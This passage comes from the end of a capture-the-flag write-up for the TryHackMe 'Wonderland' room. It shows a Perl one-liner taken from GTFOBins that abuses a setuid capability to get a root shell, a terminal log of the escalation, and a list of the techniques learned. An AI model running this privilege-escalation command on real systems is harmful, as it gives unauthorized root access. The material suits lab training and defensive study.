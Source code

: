 Check [GTFObins](https://gtfobins.github.io/gtfobins/perl/) and get the
command for pawning a shell out of the section "capabilities".
  
`./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`
  
  
```sh
hatter@wonderland:~$ id
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# bash -i
root@wonderland:~# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
root@wonderland:~# wc -c /home/alice/root.txt 
66 /home/alice/root.txt
```
  

###
**Task 1.2 solved**
### 
  


<a href="https://www.c-ville.com/wp-content/uploads/2013/04/Root-the-box-660x335.jpg" rel="follow"><left><img src="/assets/img/thm-images/root.jpg" />  
  

   
---
  
  
# <ins>What we learned:</ins>

1. Web enumeration recursively with **dirbuster**
2. Escalate via Python import
3. Escalate via binary on a changed $PATH
4. Usage of capabilities to escalate to root





---  
  
[thmlink]: https://tryhackme.com/room/wonderland
